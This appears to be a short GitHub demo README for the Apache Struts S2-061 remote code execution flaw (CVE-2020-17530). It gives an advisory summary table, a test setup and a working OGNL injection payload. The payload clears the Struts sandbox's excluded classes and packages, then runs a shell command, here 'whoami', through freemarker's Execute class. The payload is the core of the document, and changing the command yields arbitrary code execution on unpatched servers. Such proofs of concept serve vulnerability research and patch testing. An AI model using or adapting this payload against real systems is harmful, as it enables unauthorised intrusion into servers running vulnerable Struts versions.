 # S2-061 Demo

## Summary

| Who should read this    | All Struts 2 developers and users                            |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | Possible Remote Code Execution vulnerability                 |
| Maximum security rating | Important                                                    |
| Recommendation          | Upgrade to [Struts 2.5.26](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.26) or greater |
| Affected Software       | Struts 2.0.0 - Struts 2.5.25                                 |
| Reporters               | Alvaro Munoz - pwntester at github dot comMasato Anzai of Aeye Security Lab, inc. |
| CVE Identifier          | CVE-2020-17530                                               |

## Problem

S2-061是对S2-059补丁的绕过。

## Environment

| Struts2 Version | Struts-2.3.24          |
| :-------------- | :--------------------- |
| Web Server      | Tomcat 8.5.53          |
| IDE             | IDEA 2020.1.1 ULTIMATE |

## POC

命令执行：

```java
%{('Powered_by_Unicode_Potats0,enjoy_it').(#UnicodeSec = #application['org.apache.tomcat.InstanceManager']).(#potats0=#UnicodeSec.newInstance('org.apache.commons.collections.BeanMap')).(#stackvalue=#attr['struts.valueStack']).(#potats0.setBean(#stackvalue)).(#context=#potats0.get('context')).(#potats0.setBean(#context)).(#sm=#potats0.get('memberAccess')).(#emptySet=#UnicodeSec.newInstance('java.util.HashSet')).(#potats0.setBean(#sm)).(#potats0.put('excludedClasses',#emptySet)).(#potats0.put('excludedPackageNames',#emptySet)).(#exec=#UnicodeSec.newInstance('freemarker.template.utility.Execute')).(#cmd={'whoami'}).(#res=#exec.exec(#cmd))}
```

![](img/AE154B9A-281D-4085-83F9-0A2D55B3016E.png)

## Reference

- [S2-061](https://cwiki.apache.org/confluence/display/WW/S2-061)
- [Struts2 s2-061 Poc分析](https://mp.weixin.qq.com/s/skV6BsARvie33vV2R6SZKw)